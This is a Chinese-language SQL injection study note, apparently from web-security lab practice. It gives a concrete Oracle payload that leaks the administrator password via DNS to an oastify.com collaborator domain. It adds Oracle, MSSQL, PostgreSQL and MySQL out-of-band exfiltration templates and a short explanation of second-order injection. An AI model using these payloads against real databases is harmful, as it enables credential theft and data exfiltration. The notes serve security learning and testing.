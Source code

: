 #### 带有数据泄露的 DNS 查找 

构造语句
>'|| (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>< !DOCTYPE root [ < !ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.604dmwveewo3kfsvv5aqbj3b72du1j.oastify.com/"> %remote;]>'),'/l') FROM dual)--

*备注*
**甲骨文** 		
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>< !DOCTYPE root [ < !ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual	
**微软** 		
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
**PostgreSQL** 	
create OR replace function f() returns void as &#36;&#36;
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
&#36;&#36;language plpgsql security definer;
SELECT f();
**MySQL**
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'

## 二阶SQL注入

一阶 SQL 注入出现在应用程序从 HTTP 请求中获取用户输入并在处理该请求的过程中以不安全的方式将输入合并到 SQL 查询中的情况。

在二阶 SQL 注入（也称为存储 SQL 注入）中，应用程序从 HTTP 请求中获取用户输入并将其存储以供将来使用。这通常是通过将输入放入数据库来完成的，但在存储数据的位置不会出现漏洞。稍后，当处理不同的 HTTP 请求时，应用程序会检索存储的数据并以不安全的方式将其合并到 SQL 查询中。

